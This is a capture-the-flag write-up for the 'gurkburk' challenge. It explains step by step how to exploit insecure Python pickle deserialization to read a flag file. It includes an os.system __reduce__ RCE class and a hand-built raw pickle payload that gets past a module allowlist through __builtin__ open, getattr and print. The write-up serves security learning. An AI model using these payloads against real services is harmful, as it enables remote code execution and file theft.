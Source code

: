 # writeup for gurkburk
The ultimate goal is to read `flag.txt`

Since the server allows us to load pickle object, we can try a typical pickle RCE first:
```
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('cat ./flag.txt')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Unfortunately, the server reject our input for using modules outside `__main__` and `__builtin__`.

Knowning that, we need to build a payload that only uses functions from the 2 modules such as `print()` and `open()` ...

The code we need to run is:
```
print(open('./flag.txt','r').read())
```

One way of doing it is to chain multiple python classes to form a complicated `__reduce__` function: [writeup](https://gist.github.com/toblu302/364c3b474c4148295fdee9bd0207e758)

Instead, I choose to write in raw pickle object format. Read [this blog](https://rushter.com/blog/pickle-serialization-internals/) for more information

One tricky part of this method is that we cannot directly chain functions like this: `open('file', 'r').read()`.

Alternatively, we need to use `getattr()` to chain functions like this: `getattr(open('file','r'), 'read')()`

Final payload:
```
c__builtin__
open
(S'./flag.txt'
S'r'
tRp1
c__builtin__
getattr
(g1
S'read'
tR(tRp2
c__builtin__
print
(g2
tR.
```

Explanation:

Push `open()` function from `__builtin__` modules to stack:
```
c__builtin__
open
```

Push the desired arguments to stack:
```
(S'./flag.txt'
S'r'
t
```

Take the arguments and functions from the stack, execute and store the function output to memory space 1

(equivalent to `m1=open('flag.txt','r')`)

```
Rp1
```

Push `getattr()` function to stack:
```
c__builtin__
getattr
```

Get the output from last function (file object stored in memory space 1) as the argument 1, push `read` as the second argument

```
(g1
S'read'
```

Run `getattr(open('flag.txt', 'r'), 'read')`:
```
tR
```

Run `getattr(open('flag.txt', 'r'), 'read')()` (equivalent to `open('flag.txt').read()`) and store the function output (flag string) to memory space 2:
```
(tRp2
```

Print flag string:
```
c__builtin__
print
(g2
tR.
```

So the final payload is `c__builtin__\nopen\n(S'./flag.txt'\nS'r'\ntRp1\nc__builtin__\ngetattr\n(g1\nS'read'\ntR(tRp2\nc__builtin__\nprint\n(g2\ntR.`

Base64 encode it and send to server, and we can get the flag.